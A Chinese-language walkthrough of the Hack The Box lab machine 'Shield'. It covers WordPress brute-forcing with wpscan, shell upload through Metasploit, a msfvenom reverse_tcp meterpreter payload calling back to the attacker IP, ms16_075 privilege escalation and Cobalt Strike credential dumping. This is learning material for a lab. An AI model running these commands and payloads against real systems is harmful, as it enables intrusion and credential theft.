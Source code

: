 # Shield



-   靶机： `10.10.10.29`
-   攻击机：`10.10.14.88`



## 信息收集



```shell
└─# nmap 10.10.10.29 -A                                                                                                                                                    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 21:49 EST
Nmap scan report for 10.10.10.29
Host is up (0.24s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
```

3306 mysql不允许远程登录，无法爆破，入口点只有80端口



## web

上来就是一个iis，很快啊

![image-20210302105122136](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302105122136.png)

### dirsearch

我一个`dirsearch`，都找到了啊

![image-20210302105308625](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302105308625.png)



### wpscan

祭出`wordpress`的渗透神器`wpscan`，找用户名，并爆破

`wpscan --url http://10.10.10.29/wordpress/ --passwords /usr/share/wordlist/rockyou.txt`

![image-20210302105646571](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302105646571.png)

转念一想，前几个都有联动，这个会没有？拿出上道题的密码`P@s5w0rd!`

好家伙，进了后台

![image-20210302105837375](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302105837375.png)



### msf

有多种方式getshell，比如说

-   插件

    -   Wordpress 支持自定义插件
    -   msf存在模块 `exploit/unix/webapp/wp_admin_shell_upload`，可以直接利用插件。

-   修改源码

    -   在外观->编辑器处可以修改php源码，直接留webshell，在这个站我测试的时候留了一句话木马，结果出现了问题。

        ![image-20210302130127180](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302130127180.png)

        ![image-20210302130815893](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302130815893.png)

        总之就是不太行。

所以还是msf好用，如下设置参数：

![image-20210302131005569](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302131005569.png)

<font color='red'>上面的lhost应该写入自己的ip，不能用0.0.0.0，会出错，懒得改了，就这样了</font>

得到一个shell，并上传一句话木马

![image-20210302131326846](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302131326846.png)

使用蚁剑连接

![image-20210302131514532](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302131514532.png)



## 提权

Windows的提权可以使用msf下的一个模块`post/multi/recon/local_exploit_suggester`

![image-20210302131618990](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302131618990.png)

但是这个必须要一个Windows的`meterpreter session`，用

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.88 LPORT=8848 -f exe > msf_x64.exe`

生成一个payload，上传到服务器上，msf打开`handler`，执行木马，得到一个会话

![image-20210302132104042](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302132104042.png)

使用`suggester`

![image-20210302133113265](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302133113265.png)

说可以用`ms16_075`提权

![image-20210302133253493](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302133253493.png)

结果却失败了，但是确实说了是**vulnerable**，所以应该是参数不对

这里有个参数是`clsid`

>   https://blog.csdn.net/wmnmtm/article/details/82922028

<font color='red'>目前还不知道在`ms16_075`中这个id是干啥的，找不到相关资料。盲猜是写入了特定的id，改变了权限</font>

网上找了一下其他的`clsid`

>    https://www.cnblogs.com/hookjoy/p/12460089.html

目标系统是**windows 2016**

![image-20210302133833707](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302133833707.png)

选了 **{42C21DF5-FB58-4102-90E9-96A213DC7CE8}**，再次`exploit`，成功

![image-20210302134011551](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302134011551.png)



flag：![image-20210302134131022](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302134131022.png)



## 后话

后来翻了翻wp，发现最后有一步导出密码的操作，在下一个机子有用，那就顺便学习一下cs

上传cs_x64的马，system上线

![image-20210302134509016](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302134509016.png)



```shell
beacon> sleep 1
[*] Tasked beacon to sleep for 1s
beacon> shell whoami
[*] Tasked beacon to run: whoami
[+] host called home, sent: 53 bytes
[+] received output:
nt authority\system
```

用 [梼杌](https://github.com/pandasec888/taowu-cobalt-strike)插件的凭证获取

![image-20210302134832578](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302134832578.png)

导出用户**sandra**的密码 **Password1234!**，域名：**MEGACORP.LOCAL**

![image-20210302134943182](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302134943182.png)



直接使用`net time /domain`去请求域会失败，猜测可能是没有接入域吧。

![image-20210302135113724](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210302135113724.png)

 

## 反思

Windows提权的手段又多了一点，知识面慢慢打开。

脚本小子初养成。


